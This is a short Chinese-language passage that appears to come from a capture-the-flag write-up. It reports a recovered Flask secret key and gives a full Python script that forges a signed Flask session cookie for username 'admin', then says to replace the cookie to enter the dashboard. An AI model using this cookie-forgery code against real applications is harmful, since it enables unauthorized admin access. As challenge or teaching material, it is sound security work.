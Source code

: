得到密钥为：`a123456`

下面是python的生成session的脚本

```
from itsdangerous import base64_decode
import zlib
from flask.sessions import SecureCookieSessionInterface
import ast

class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key

def encode(secret_key, session_cookie_structure):
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)
        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error] {}".format(e)

def decode(session_cookie_value, secret_key=None):
    try:
        if secret_key is None:
            compressed = False
            payload = session_cookie_value
            if payload.startswith('.'):
                compressed = True
                payload = payload[1:]
            data = payload.split(".")[0]
            data = base64_decode(data)
            if compressed:
                data = zlib.decompress(data)
            return data
        else:
            app = MockApp(secret_key)
            si = SecureCookieSessionInterface()
            s = si.get_signing_serializer(app)
            return s.loads(session_cookie_value)
    except Exception as e:
        return "[Decoding error] {}".format(e)

# 示例用法
cookie_structure = encode(secret_key='a123456',session_cookie_structure="{'_flashes': [('success', '登录成功')], 'username': 'admin'}")

print(cookie_structure)
```

替换cookie后进入dashboard

